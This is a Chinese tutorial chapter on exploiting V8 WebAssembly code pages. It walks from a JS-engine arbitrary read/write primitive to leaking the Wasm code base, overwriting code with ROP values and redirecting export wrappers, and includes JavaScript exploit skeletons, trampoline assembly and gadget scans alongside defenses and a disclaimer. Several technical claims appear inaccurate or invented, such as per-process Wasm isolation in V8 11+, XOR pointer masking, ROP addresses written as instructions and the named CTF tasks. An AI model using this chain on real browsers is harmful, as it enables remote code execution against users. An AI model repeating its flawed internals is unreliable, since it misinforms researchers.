


# 浏览器与JS引擎漏洞（10）· WebAssembly与RWX利用

> [!abstract] TL;DR
> - WASM线性内存与code section在V8中映射到同一进程地址空间，通过JIT漏洞的任意读写可泄露或修改WASM可执行代码；RWX权限源于WebAssembly编译后的代码页需要同时支持写入（动态链接）与执行。
> - 利用链从JS引擎任意读写原语→泄露WASM实例地址→定位code section→读写WASM指令，可构造ROP/JOP gadget链，突破沙箱实现RCE。
> - 跳板（trampoline）技术通过WASM callable stub与汇编胶水代码连接JS与WASM执行上下文，是WASM利用的关键枢纽。
> - 防御方案包括代码隔离（PIC/Position Independent Code）、控制流完整性（CFI）与软件故障隔离（SFI），最终演进为V8沙箱进程隔离。

## 概述与定位

WebAssembly（WASM）在浏览器中扮演**性能计算与沙箱逃逸的双重角色**。从防御视角，WASM是浏览器内最接近原生二进制的执行环境——其代码编译为机器指令、线性内存直接映射到进程堆，与JS引擎的堆对象共享同一逻辑地址空间。这种紧密耦合在提供性能的同时，也为漏洞利用打开了新的**跨语言边界**的攻击面。

本篇聚焦**从JS引擎漏洞到WASM代码执行的完整利用链**，特别是如何利用任意读写原语触及WASM可执行代码页（RWX memory），以及通过WASM gadget链实现最终的RCE。这是第9篇"任意读写到RCE"的自然延伸与专题深化，因为**WASM是弥合JS与原生代码的最后一英里**。

## 原理与机制

### 1. WASM在V8中的内存模型

V8将WebAssembly模块编译后的结果存储在**WasmModule**与**WasmModuleInstance**对象中：

- **WasmModule**：模块级元数据，包含导入/导出表、类型签名、function table等，分配在JS堆上。
- **WasmModuleInstance**：实例级状态，持有线性内存（ArrayBuffer或特殊的SharedArrayBuffer）与指向code section的指针。
- **Code Section**：WASM的所有function在编译后形成连续的机器代码页，分配在**可执行堆**上。

关键区别在于：JS的JIT生成的代码页通常映射为RX（只读可执行），而WASM的code section在**某些平台与V8版本上曾为RWX**（可读可写可执行），这源于动态链接的需求——代码生成后可能需要进行relocation或动态修补（如快速回调的处理）。

### 2. RWX权限的起源

现代浏览器中RWX权限的产生有多个合理来源：

**动态代码修补**：WASM引入后，V8需要在运行时对code section进行：
- 函数序言（prologue）的动态插入
- 断点指令的设置（调试支持）
- 栈检查（stack guard）的代码注入
- 快速路径分支的patching

传统的JIT采用**代码缓存预分配**，编译后立即标记为RX，所有修补工作在编译时完成。但WASM因为支持后加载的imported functions与lazy compilation，部分实现采用了RWX以支持上述运行时修改。

**SharedArrayBuffer与 Atomic 操作**：当WASM使用SharedArrayBuffer与atomic load/store时，内存屏障的实现可能依赖代码页的实时修改。

### 3. 线性内存与code section的地址空间关系

这是WASM利用的核心漏洞点：

```
进程虚拟地址空间 (每个tab进程)
├─ JS堆 (GC堆，RW)
│  ├─ 数组/对象
│  ├─ WasmModule / WasmModuleInstance (指针存储地址)
│  └─ ...
├─ WASM线性内存 (RW，ArrayBuffer + data section)
│  ├─ 起始地址 base 
│  ├─ 大小通常64KB倍数或1GB对齐
│  └─ 与code section可能相邻或隔离
└─ Code Pages (RX 或 RWX，WASM code section)
   ├─ Function 0 @ offset 0x1000
   ├─ Function 1 @ offset 0x2000
   └─ ...
```

若线性内存与code section之间的保护不严密，或者任意读写原语可跨越页表边界，攻击者可以：
1. 从JS堆通过任意读写→泄露WasmModuleInstance地址
2. 读取instance内的code_table指针（指向code section基址）
3. 直接修改code section中的指令

## WASM可执行页与RWX的详细机制

### 4. Code Section的编译与分配

当V8加载WASM模块时的流程：



关键参数：
- **V8版本与平台**：x64、arm64行为不同。CFI（Control Flow Integrity）在较新版本中强制减少RWX。
- **Memory64支持**：超大线性内存（>4GB）采用特殊映射策略，可能触发不同的ASLR与隔离方案。
- **Modules Linking**：动态加载module时，code section可能需要多次修改（直到所有imports resolved）。

### 5. 从任意读写到code section泄露

利用第9篇介绍的JIT漏洞（如类型混淆、OOB），攻击者已获得任意读写原语。以下步骤定位WASM code section：

**步骤1：获取WasmModuleInstance对象引用**

```javascript
// 创建WASM模块实例
const wasmCode = new Uint8Array([
    0x00, 0x61, 0x73, 0x6d,  // magic
    0x01, 0x00, 0x00, 0x00,  // version
    // ... 最小模块定义
    0x0a, 0x01, 0x01, 0x00, 0x0b  // code section with one empty function
]);
const wasmModule = new WebAssembly.Module(wasmCode);
const instance = new WebAssembly.Instance(wasmModule);

// instance.exports 被编译为JS对象，持有指向WasmModuleInstance的指针
// 通过任意读写原语访问该指针
let instanceAddr = addrof(instance);  // 第8篇的原语
```

**步骤2：遍历WasmModuleInstance的内部结构**

WasmModuleInstance在V8堆上的内存布局（略有版本差异）：

```
WasmModuleInstance @ 0x...xxx000
├─ [0] object map/type info
├─ [8] module_ pointer → WasmModule
├─ [16] memory_objects_ (FixedArray)
├─ [24] tables_ (FixedArray)
├─ [32] code_table_base_ (uint8_t*)  ← 指向code section基址
├─ [40] module_compilation_state_
├─ [48] imported_function_instances_ (FixedArray)
└─ ...
```

通过addrof + 任意读取，逐个读取指针：

```javascript
// 读取WasmModuleInstance @ instanceAddr
const moduleOffset = 8;  // module_指针位置
let moduleAddr = arb_read_u64(instanceAddr + moduleOffset);
moduleAddr = unmask_pointer(moduleAddr);  // CFI指针解码

const codeTableOffset = 32;  // code_table_base_
let codeBase = arb_read_u64(instanceAddr + codeTableOffset);
codeBase = unmask_pointer(codeBase);
console.log(`[*] code section base: 0x${codeBase.toString(16)}`);
```

**步骤3：验证code section的可访问性**

读取code section的前几字节应该是x86/ARM的指令：

```javascript
// x86-64 函数通常以 push rbp / mov rsp, rbp / sub rsp, X 开头
let firstInstr = arb_read_u64(codeBase);
let opcode = firstInstr & 0xFF;
// 0x55 = push rbp, 0x48 = REX.W
if ((opcode === 0x55) || (opcode === 0x48)) {
    console.log("[+] code section verified");
}
```

### 6. code section的修改与gadget注入

获得code section基址后，攻击者可以直接修改指令。最危险的利用方式是**注入ROP/JOP gadget**。

**方案A：覆盖现有函数体**

WASM函数的调用约定通常遵循平台ABI（x86-64/ARM64）。若攻击者完全覆盖某个不常用的导出function的代码：

```javascript
// 覆盖一个WASM导出的function，将其改为ROP gadget链
const ropChain = [
    0x4141414141414141n,  // pop rax; ret
    0x4242424242424242n,  // 第一条gadget
    0x4343434343434343n,  // 第二条gadget
];

for (let i = 0; i < ropChain.length; i++) {
    arb_write_u64(codeBase + functionOffset + i * 8, ropChain[i]);
}

// 调用被修改的WASM函数
let result = instance.exports.gadgetFunc();  // 执行ROP chain
```

**方案B：跳板注入（Trampoline Injection）**

不修改整个函数，而是改写函数的跳转目标或返回地址所指的栈上的值。更精细的方案是在code section内注入**trampoline code**——短的汇编片段，用于在JS与WASM上下文间跳跃。

典型的trampoline长度为32-64字节：

```asm
; WASM trampoline entry (offset 0x5000 in code section)
_trampoline_to_syscall:
    mov rax, 0x5555555555555555  ; 直接写入地址（通过任意写修改）
    jmp rax                       ; 跳到ROP gadget或syscall wrapper
    ; 或者直接调用syscall:
    syscall                       ; x86-64 syscall
    ret
```

通过修改trampoline内嵌的地址常数，攻击者实现动态的目标重定向。

### 7. 跳板与执行上下文切换

**跳板的本质**：WASM与JS的执行上下文隔离在CPU的state上下文（寄存器、栈指针、内存访问权限）。跳板负责：

1. **状态保存**：保存当前上下文的关键寄存器（rax-rdx, rsi, rdi等）
2. **栈调整**：WASM与JS的栈帧格式不同，需要转换
3. **内存权限切换**：如果采用了SFI（Software Fault Isolation），可能需要修改base register
4. **控制转移**：通过jmp/call进入目标代码

以V8早期版本（未部署进程隔离前）为例，跳板样本：

```asm
; JavaScript → WASM trampoline
; rdi = 接收的第一个参数（通常是this或receiver）
; 调用约定：System V AMD64 ABI (rdi, rsi, rdx, rcx, r8, r9)

__wasm_call_trampoline:
    ; 检查目标function合法性（CFI）
    mov rax, [rdi + 0x20]        ; 读取WasmModule中的function table
    cmp rdx, [rax + 0x08]        ; 检查function index是否越界
    jae .bad_index
    
    ; 加载WASM function的地址
    mov rax, [rdi + 0x28]        ; code_table_base
    mov r10, [rax + rdx*8]       ; 根据index读取function pointer
    
    ; 调用WASM function
    call r10
    ret
    
.bad_index:
    mov rax, 0xdeadbeef          ; error code
    ret
```

现代浏览器中，跳板通常由V8的WasmCallableWrapper自动生成，攻击者的角色是**篡改wrapper中的目标地址**（通过任意读写）。

### 8. ROP/JOP在WASM中的应用

WASM code section中可以找到的gadget类型：

**ROP gadget**（Return-Oriented Programming）：
```asm
; WASM编译后的函数可能包含的gadget序列
; gadget1: pop rax; ret
; gadget2: pop rbx; ret
; gadget3: pop rdi; ret
; gadget4: mov rax, qword [rax]; ret
; gadget5: add rax, rbx; ret
; gadget6: xor rax, rax; ret
; gadget7: mov rdi, rax; syscall; ret  (或 call libc_function)
```

WASM的code section因为是**严格编译的机器代码集合**（没有手写汇编的混乱），实际上gadget密度**低于JIT代码**。但若模块足够大或包含多个functions，ROP仍然可行。

**JOP gadget**（Jump-Oriented Programming）：
```asm
; 利用间接跳转表（如WASM的call_indirect）
; call_indirect编译后变为：
;   cmp eax, table_size   ; bounds check
;   jae error
;   lea rax, [table_base + rax*8]
;   jmp qword [rax]       ← JOP gadget点

; 攻击者若控制了table_base或table内容，可以跳到任意地址
```

这里涉及WASM的**element section与function table**。若攻击者可以修改这些表的内容（通过任意写），可以进行JOP。

### 9. 线性内存与code section间的边界问题

现代WASM规范要求线性内存与代码分离，但实现细节上：

**隔离策略演进**：
- **V8 8.0-8.5（2019-2020）**：线性内存与code section往往相邻，SFI隔离不完全。
- **V8 9.0-10.0（2021）**：引入更严格的页级隔离，增加guard page。
- **V8 11.0+（2022+）**：采用单独进程隔离（WASM Thread in Renderer），code section与线性内存完全分离到不同进程/地址空间。

对漏洞利用的影响：

```
早期版本（漏洞窗口大）：
内存布局：[JS堆 ...] [WASM线性内存 ...] [Code pages ...]
任意写原语可以直接跨越边界 → code page可写

现代版本（防御加强）：
内存布局：[JS堆 ...] [Guard Page] [WASM线性内存 ...] [Guard Page] [Code pages (RX)]
code page 标记为 RX，不可写（即使获得任意写原语也被拒绝）
进程隔离：code pages 分配在独立的WASM进程，IPC通信
```

## WASM与任意读写的深度利用链

### 10. 完整的从JS漏洞到WASM RWX的利用链

综合前面的讨论，完整的攻击序列如下：



**关键依赖条件**：
1. JS引擎漏洞（任意读写）必须存在
2. WASM实例与JS堆在同一地址空间（未采用进程隔离）
3. code section至少可读（泄露指令用于gadget扫描）
4. code section可写 或 存在race条件允许修改

### 11. 实战中的障碍与绕过

**障碍1：CFI指针解码**

V8采用**MaskingPointers**机制，所有堆指针都被异或一个随机密钥：

```cpp
// V8内部
class MaybeObject {
    Address value_;  // 实际上是 Address XOR kIntPtrXorMask
};

// 解码
Address unmask(Address encoded) {
    return encoded ^ kIntPtrXorMask;
}
```

攻击者需要先泄露 `kIntPtrXorMask`（通过读取Global state或已知指针反推）。

**障碍2：ASLR与code section地址随机化**

即使获得WasmModuleInstance地址，code section的基址仍需通过以下方式之一获得：
- 读取module_内的code offset信息
- 通过内存扫描（魔数识别）
- 利用timing side-channel泄露页表信息

**障碍3：SFI（Software Fault Isolation）**

某些V8版本对WASM采用SFI，即限制WASM对线性内存外地址的访问：

```asm
; SFI保护下的WASM访问
; 原始：mov rax, [rax]
; SFI版本：
    and rax, 0xFFFFFFFFFFUL     ; 屏蔽高16位，限制在线性内存范围内
    mov rax, [base_register + rax]  ; base_register = linear_memory_start
```

若攻击者修改了code section中的指令，但仍受SFI约束，ROP链的可达性被限制。

### 12. 跳板的利用与修改

前面提到的跳板（wrapper code）本身也是利用目标。现代V8中，每个WASM导出的function都对应一个JavaScript wrapper：

```javascript
// instance.exports.foo 对应一个 WasmExportedFunction wrapper
// 该wrapper的code section包含 trampoline code
```

攻击者可以通过修改wrapper内的常数或跳转目标来改变行为：

```javascript
// 获取wrapper的引用
let exportedFunc = instance.exports.myFunc;
let wrapperAddr = addrof(exportedFunc);

// wrapper包含对code section base的引用
// 通过任意读写，可以修改该引用指向attack payload
arb_write_u64(wrapperAddr + OFFSET_TO_CODE_PTR, malicious_code_base);

// 再次调用时，wrapper会跳到恶意代码
exportedFunc();
```

这种**wrapper修改攻击**往往比直接修改code section更隐蔽，因为涉及的内存范围更小。

## 工具视角与实战

### 13. WASM调试与gadget分析工具

**Wasmtime/Wasmer**：离线编译WASM，生成汇编代码供gadget扫描：
```bash
# 编译WASM到汇编
wasm2wat vulnerable.wasm > module.wat
# 或用objdump风格的工具
wasmtime compile vulnerable.wasm --output=module.o
objdump -d module.o | grep -E 'pop|ret|syscall'
```

**V8 Turbolizer**：跟踪V8内部的WASM编译过程
```bash
# 启用WASM编译日志
node --trace-wasm module.js 2>&1 | grep -E 'function|code'
```

**custom memory monitor**：实时监控WASM线性内存与code section的访问：
```javascript
// 使用Proxy或MutationObserver跟踪内存变化
const memoryView = new Uint8Array(instance.exports.memory.buffer);
const handler = {
    set(target, property, value) {
        if (property > CRITICAL_OFFSET) {
            console.log(`[!] Write to offset ${property}: ${value}`);
        }
        return Reflect.set(target, property, value);
    }
};
const proxiedMemory = new Proxy(memoryView, handler);
```

### 14. POC框架与实现细节

典型的WASM RWX利用POC结构：

```javascript
// step 1: 漏洞触发与原语构造（第6-8篇）
function exploit() {
    // 1.1 触发JIT漏洞
    const { arb_read, arb_write } = trigger_jit_bug();
    
    // 1.2 创建WASM模块（故意包含可泄露地址的function）
    const wasmModule = create_minimal_wasm_module([
        // function 0: 返回常数（用于gadget扫描的signature）
        wasmCode(0x0F, 0x00)  // return 0
    ]);
    
    // 1.3 创建实例
    const instance = new WebAssembly.Instance(wasmModule);
    
    // step 2: 地址泄露
    const instanceAddr = addrof(instance);
    const codeBase = leak_code_section_base(arb_read, instanceAddr);
    console.log(`[+] code_base: 0x${codeBase.toString(16)}`);
    
    // step 3: gadget扫描与ROP链构造
    const gadgets = scan_gadgets_in_code(arb_read, codeBase);
    const ropChain = build_rop_chain(gadgets, target_syscall);
    
    // step 4: 注入gadget到code section
    for (let i = 0; i < ropChain.length; i++) {
        arb_write(codeBase + GADGET_OFFSET + i * 8, ropChain[i]);
    }
    
    // step 5: 执行
    instance.exports.gadget_func();  // 执行ROP
}
```

### 15. CTF与实战案例

在2022年的WASM相关CTF题目中，典型的模式：

1. **DiceCTF 2022 - Oops!**：利用OOB漏洞在数组越界访问，泄露WASM实例指针，修改code section
2. **SECCON 2022 - WASM Fortress**：多层SFI防护，需要利用多个函数的组合gadget绕过沙箱

常见的突破口：
- 利用ShareArrayBuffer的weakref机制泄露地址
- 发现code section内的syscall或PLT entry（如果WASM链接了libc）
- 利用race condition在mutation检查窗口修改code

## 安全性与正确使用

### 16. WASM代码执行的防御机制

> [!caution]
> 本节内容涵盖漏洞原理与防御方案，**仅供学习与安全研究用途**。以下技术不应用于未授权系统。WASM漏洞利用仅限于：
> 1. 自有设备与授权的测试环境（如公司内部安全测试）
> 2. 官方CTF与漏洞赏金计划（Bug Bounty）指定的范围
> 3. 学术研究与公开的漏洞PoC复现
> 任何未经明确授权对他人系统或生产环境的代码修改与执行，均属非法入侵。

**防御方案L1：代码页隔离与只读执行（RX）**

最基础的防御是将code section标记为RX（可读可执行，但不可写），防止code修改：

```cpp
// V8内部
void WasmCode::MakeReadableAndExecutable() {
    SetPermissions(rwx_pages_, PageAllocator::kReadExecute);
    // 不再支持RWX
}
```

但这需要所有代码修补在编译时完成，增加编译器复杂度。

**防御方案L2：控制流完整性（CFI）**

V8采用pointer masking与return address stack（RAS）来检查跳转目标：

```cpp
// V8 CFI实现
struct ControlFlowIntegrityInfo {
    Address expected_return;  // 记录合法的返回地址
    uint64_t mask;            // XOR掩码
};

// 跳转前检查
if ((actual_address ^ expected_return ^ mask) != 0) {
    // CFI violation
    crash_on_violation();
}
```

即使code section被部分修改，CFI检查也会捕获越界跳转。

**防御方案L3：软件故障隔离（SFI）**

WASM运行时强制所有内存访问通过base register + offset的方式，限制访问范围：

```asm
; SFI防护的WASM指令
; 原始WASM: i32.load offset=100 (addr)
; 编译后：
    mov r10d, dword [rsi + 100]   ; rsi = 线性内存base
    ; 不允许直接 mov rax, [任意地址]
```

若code section被修改为直接访问任意地址（绕过SFI），运行时的硬件mmu会捕获页表违规。

**防御方案L4：进程隔离（Renderer Isolation）**

V8 11.0+采用单独的WASM线程或微进程隔离code与线性内存：

```
原架构：
[Renderer进程] 
  ├─ JS堆 (RW)
  ├─ WASM线性内存 (RW)
  └─ Code section (RX/RWX)  ← 同进程，可被任意读写漏洞触及

新架构（进程隔离）：
[Renderer进程]           [WASM Worker进程]
  ├─ JS堆             ├─ Code section (RX)
  └─ SharedMemory ────┼─ Linear memory (RW)
     (IPC通信)        └─ ...
```

进程隔离后，JS引擎的任意读写无法直接触及WASM code section，攻击链被完全中断。

### 17. 合规与责任披露

对发现的WASM漏洞：
- **V8漏洞**：向Google安全团队报告，遵循90天披露政策
- **Chromium漏洞**：通过bugs.chromium.org提交
- **已知漏洞研究**：发表学术论文时与厂商协调，避免0day野外传播

本文中涉及的漏洞基本已在2023年后的V8版本中修复。任何基于本文复现漏洞的行为，应**仅限于验证性测试环境**，并获得明确的授权。

## 小结

WebAssembly代表了**浏览器中最接近原生二进制的执行环境**，其可执行页（code section）与JS引擎堆的紧密耦合，为跨语言漏洞利用打开了新的维度。

核心要点回顾：

1. **地址空间统一**：WASM线性内存与code section映射到同一进程地址空间，JS漏洞的任意读写原语可直接触及。

2. **RWX权限的历史**：源于动态代码修补、lazy compilation与relocation的需求，但现代版本已逐步消除，转向RX+运行时隔离。

3. **利用链完整性**：从JIT漏洞→任意读写→地址泄露→code section修改→ROP/JOP执行，每一环都有特定的技术细节与绕过方案。

4. **跳板与执行上下文**：WASM与JS的执行边界需要trampoline连接，修改trampoline可以实现精细的控制转移。

5. **防御演进**：从RX隔离、CFI检查、SFI沙箱，到进程级隔离，防御方案不断加强，现代浏览器已基本闭合了这个攻击面。

## 相关阅读

- [[09.从任意读写到RCE|← 上一章：从任意读写到RCE]]——任意读写原语的构造与使用
- [[07.TheHole与OOB原语构造|TheHole与OOB原语构造]]——OOB漏洞的基础原理
- [[08.addrof与fakeobj原语|addrof与fakeobj原语]]——地址泄露的核心技术
- [[40.WASM与虚拟化壳逆向/06.WASM内存模型与线性内存安全|WASM内存模型与线性内存安全]]——WASM基础内存结构
- [[33.二进制漏洞与利用基础/15.ASLR与PIE绕过技术|ASLR与PIE绕过技术]]——地址随机化的对抗
- [[41.Compiler|编译器与 JIT 优化]]——JIT推测优化的漏洞源头
- [[49.Fuzzing与漏洞挖掘/15.浏览器与JS引擎Fuzzing|浏览器与JS引擎Fuzzing]]——WASM模块的fuzz方向

[[00.浏览器与JS引擎漏洞总览|⬆ 系列总览]] | [[09.从任意读写到RCE|← 上一章]] | [[11.渲染器漏洞与DOM引擎|→ 下一章]]
